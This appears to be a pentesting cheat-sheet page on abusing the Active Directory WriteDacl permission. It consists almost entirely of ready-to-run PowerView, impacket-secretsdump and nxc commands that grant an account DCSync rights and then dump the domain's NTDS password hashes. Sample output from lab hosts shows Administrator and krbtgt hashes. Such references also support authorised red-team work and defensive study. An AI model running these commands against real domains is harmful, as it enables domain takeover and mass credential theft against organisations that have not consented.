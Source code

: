 ```yaml
---
title: "WriteDacl"
date: 2025-7-25
tags: ["Writedacl", "Dcsync", "Powerview", "Credential Dumping", "Active Directory", "Windows"]
---
```


### Abuse #1: Add DCsync Right to User

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}
{{< tab set1-1 tab1 active >}}powerview.py{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

#### 1. Connect to DC

```console
# With password
powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console
# With hash
powerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -H <HASH>
```

```console {class="sample-code"}
$ powerview 'CORP.LOCAL/WEB01$@172.16.1.5' -H 7ddf32e17a6ac5ce04a8ecbf782ca509
(LDAP)-[DC01.corp.local]-[CORP\WEB01$]
PV > 
```

#### 2. Add DCsync Right

```console
Add-DomainObjectAcl -PrincipalIdentity '<USER>' -TargetIdentity '<TARGET_IDENTITY>' -Rights DCSync
```

```console {class="sample-code"}
(LDAP)-[DC01.corp.local]-[CORP\WEB01$]
PV > Add-DomainObjectAcl -PrincipalIdentity 'WEB01$' -TargetIdentity 'DC=corp,DC=local' -Rights DCSync
[2024-10-01 12:51:36] [Add-DomainObjectACL] Found target identity: DC=corp,DC=local
[2024-10-01 12:51:36] [Add-DomainObjectACL] Found principal identity: CN=WEB01,OU=Web Servers,OU=Servers,OU=Corp,DC=corp,DC=local
[2024-10-01 12:51:36] DACL modified successfully!
```

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1
```

#### 2. Create a Cred Object (Runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add DCsync Right

```console
Add-DomainObjectAcl -PrincipalIdentity '<USER>' -TargetIdentity '<TARGET_IDENTITY>' -Rights DCSync -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync -Credential $Cred
```

{{< /tabcontent >}}

#### Secrets Dump

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console {class="sample-code"}
$ impacket-secretsdump 'svc-alfresco:s3rvice@10.10.10.161'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

```console {class="sample-code"}
$ nxc smb 172.16.1.5 -d CORP.LOCAL -u 'WEB01$' -H 7ddf32e17a6ac5ce04a8ecbf782ca509 --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB         172.16.1.5      445    DC01             [+] CORP.LOCAL\WEB01$:7ddf32e17a6ac5ce04a8ecbf782ca509
SMB         172.16.1.5      445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         172.16.1.5      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.1.5      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:ac2b5f88fc33b7b9e0682be85784ec0d:::
---[SNIP]---
```

{{< /tabcontent >}}